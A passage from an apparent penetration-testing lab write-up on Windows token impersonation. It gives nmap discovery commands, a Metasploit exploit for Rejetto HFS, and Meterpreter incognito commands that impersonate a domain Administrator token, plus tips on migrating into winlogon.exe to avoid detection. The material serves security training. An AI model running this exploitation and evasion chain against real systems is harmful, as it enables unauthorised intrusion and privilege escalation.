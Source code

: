**Stability Best Practices:**
- Migrate to winlogon.exe or csrss.exe for stability
- Avoid high-CPU operations
- Work quickly to minimize detection risk

---

## 🔗 Integration with Complete Attack Workflow

### **🎯 Full Penetration Testing Chain: Discovery → Exploitation → Escalation → Objectives**

This demonstrates how token impersonation fits into a complete penetration testing methodology.

#### **Phase 1: Target Discovery and Enumeration**
```bash
# Network discovery
nmap -sS -O demo.ine.local
# Identifies Windows target with multiple services

# Service enumeration
nmap -sV -sC demo.ine.local
# Detailed service information for exploit selection

# Vulnerability assessment
nmap --script vuln demo.ine.local
# Identifies known vulnerabilities
```

**Integration Point:** Discovery results inform our exploitation strategy and help predict available privilege escalation paths.

#### **Phase 2: Initial Exploitation**
```bash
# Metasploit exploitation
msfconsole -q
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS demo.ine.local
exploit

# Session verification
sessions -i 1
getuid
sysinfo
```

**Integration Point:** Initial access with limited privileges sets up need for privilege escalation through token impersonation.

#### **Phase 3: Privilege Escalation with Token Impersonation**
```bash
# Load privilege escalation capabilities
load incognito

# Enumerate escalation opportunities
list_tokens -u
ps | grep -i administrator

# Execute privilege escalation
impersonate_token DOMAIN\\Administrator
getuid

# Verify escalation success
whoami /priv
```